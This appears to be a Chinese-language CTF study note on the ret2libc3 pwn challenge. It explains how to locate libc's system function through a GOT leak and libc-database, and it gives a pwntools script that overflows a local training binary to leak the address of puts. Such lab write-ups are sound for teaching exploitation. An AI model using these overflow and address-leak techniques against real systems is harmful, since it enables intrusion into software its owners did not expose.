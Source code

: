 在`.bss`区仍然有隐形变量`buf2`

```C
.bss:0804A080 ; char buf2[100]
.bss:0804A080 buf2            db 64h dup(?)
```

那么我们如何得到 system 函数的地址呢？这里就主要利用了两个知识点

- system 函数属于 libc，而 libc.so 动态链接库中的函数之间相对偏移是固定的。
- 即使程序有 ASLR 保护，也只是针对于地址中间位进行随机，最低的12位并不会发生改变。而` libc `在github上有人进行收集，如下
- https://github.com/niklasb/libc-database

所以如果我们知道 libc 中某个函数的地址，那么我们就可以确定该程序利用的 libc。进而我们就可以知道 system函数的地址。那么如何得到 libc 中的某个函数的地址呢？我们一般常用的方法是采用 got 表泄露，即输出某个函数对应的 got 表项的内容。**当然，由于 libc 的延迟绑定机制，我们需要泄漏已经执行过的函数的地址。**

**小插曲**

```
:1,$ s/str1/str2/g 用字符串 str2 替换正文中所有出现的字符串 str1
1,$ s/’/'/g
1,$ s/‘/'/g
将所有中文‘’换成''
```

> **思路**
>
> （因为有延迟绑定机制）可以先调用`puts`把`put_got`的位置
>
> 之所以要回到start函数，是因为`main`的栈帧结构是一致的（垃圾数据的填充是一样的）

<img src="D:\github\pwn\pwn_study\images\ret2libc3_flowchart_1.png" alt="ret2libc3_flowchart_1" style="zoom:50%;" />

##### Q3 exploit

> 通过使用`libc-database`来查找偏移地址
>
> 但这种方法可能对本地`LibcSearcher`不太友好

###### 内存泄漏脚本

> 最终输出 `puts` 函数的地址

```python
#!/usr/bin/env python
from pwn import *

io = process('./ret2libc3')

io.recvline()  # after this line, the puts function has been called for the first time

ret2libc = ELF('./ret2libc3')

puts_plt = ret2libc.plt['puts']

puts_got = ret2libc.got['puts']  # the addr of got['puts'], not the value of addr of puts, but the double pointer of puts

start_addr = ret2libc.symbols['_start']

payload = flat(cyclic(112), puts_plt, start_addr, puts_got)  # after first payload, the addr of puts will be leaked.

io.sendlineafter('!?',payload)

raw_data = io.recv(4)  # before you write this line, be sure you have recieved all the strings before in buffer!

print(raw_data)
```
